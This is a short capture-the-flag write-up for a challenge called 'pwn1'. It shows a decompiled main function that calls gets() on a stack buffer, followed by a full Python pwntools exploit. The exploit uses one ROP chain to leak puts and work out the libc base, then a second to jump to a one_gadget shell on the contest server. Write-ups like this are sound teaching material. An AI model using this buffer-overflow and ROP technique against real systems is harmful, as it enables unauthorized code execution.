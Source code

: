 # pwn1
> LongChampion, 06/04/2020

## Challenge
Look at `main` function:
```cpp
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf; // [rsp+0h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  alarm(0x3Cu);
  sub_400687();
  printf("buffer: ");
  gets(&buf);
  return 0LL;
}
```
Yeah, easy BOF challenge! I use ROP to solve it: first ROP is used to leak libc base, and second ROP is used to trigger one_gadget.

## Solution
```python
#!/usr/bin/env python2
from pwn import *
context.binary = "./pwn1"

puts_got = 0x602018
puts_plt = 0x400550
pop_rdi = 0x400783
main = 0x400698


r = remote("pwn1-01.play.midnightsunctf.se", 10001)
lib = ELF("./libc.so")

payload1 = 'A' * 0x40 + p64(0) + p64(pop_rdi) + \
    p64(puts_got) + p64(puts_plt) + p64(main)
r.sendlineafter("buffer:", payload1)
Leak = r.recvline()[1:-1]
print "Leak = ", Leak
puts = u64(Leak.ljust(8, '\0'))
log.info("puts: " + hex(puts))
LIBC = puts - lib.symbols["puts"]
log.success("LIBC: " + hex(LIBC))

payload2 = 'A' * 0x40 + p64(0) + p64(LIBC + 0x4f2c5)
r.sendlineafter("buffer:", payload2)
r.interactive()
```